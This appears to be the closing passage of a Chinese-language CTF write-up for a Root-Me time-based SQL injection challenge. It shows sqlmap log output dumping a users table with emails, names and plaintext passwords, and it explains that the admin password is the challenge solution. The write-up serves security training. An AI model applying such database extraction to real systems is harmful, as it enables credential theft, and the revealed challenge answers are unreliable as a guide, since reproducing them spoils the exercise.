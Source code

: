 ```shell
[10:30:45] [INFO] retrieved: ycam@sqlitimebased.com
[10:35:34] [INFO] retrieved: Yann
[10:36:25] [INFO] retrieved: 1
[10:36:37] [INFO] retrieved: MAC
[10:37:09] [INFO] retrieved: T!m3B@s3DSQL!
[10:40:23] [INFO] retrieved:
[10:40:25] [INFO] retrieved: jsilver@sqlitimebased.com
[10:45:40] [INFO] retrieved: John
[10:46:37] [INFO] retrieved: 2
[10:46:51] [INFO] retrieved: SILVER
[10:48:05] [INFO] retrieved: J0hNG0lDeN
[10:50:32] [INFO] retrieved:
[10:50:34] [INFO] retrieved: jsparow@sqlitimebased.com
[10:55:25] [INFO] retrieved: Jack
[10:56:09] [INFO] retrieved: 3
[10:56:23] [INFO] retrieved: SPAROW
[10:57:41] [INFO] retrieved: Sp@r0WKr@K3n
[11:00:38] [INFO] retrieved:
Database: public
Table: users
[3 entries]
+----+---------------------------+----------+---------------+-----------+----------+
| id | email                     | usermame | password      | firstname | lastname |
+----+---------------------------+----------+---------------+-----------+----------+
| 1  | ycam@sqlitimebased.com    | <blank>  | T!m3B@s3DSQL! | Yann      | MAC      |
| 2  | jsilver@sqlitimebased.com | <blank>  | J0hNG0lDeN    | John      | SILVER   |
| 3  | jsparow@sqlitimebased.com | <blank>  | Sp@r0WKr@K3n  | Jack      | SPAROW   |
+----+---------------------------+----------+---------------+-----------+----------+

[11:00:41] [INFO] table 'public.users' dumped to CSV file 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org\dump\public\users.csv'
[11:00:41] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org'

[*] ending @ 11:00:41 /2019-03-17/
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B52%5D%20%5B45P%5D%20SQL%20injection%20-%20Time%20based/imgs/11.png)

------------

## 完成挑战

从获得的表数据来看，虽然得到了所有用户的 `password`，但是 `username` 一列是空的，换言之我们同样不知道哪个用户是哪个密码。

但是 [http://challenge01.root-me.org/web-serveur/ch40/?action=memberlist](http://challenge01.root-me.org/web-serveur/ch40/?action=memberlist) 这个页面早就告诉了我们每个用户名和其 id 的对应关系了，其中 `admin` 的 id 是 1 ，所以其密码是 `T!m3B@s3DSQL!` 。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B52%5D%20%5B45P%5D%20SQL%20injection%20-%20Time%20based/imgs/12.png)
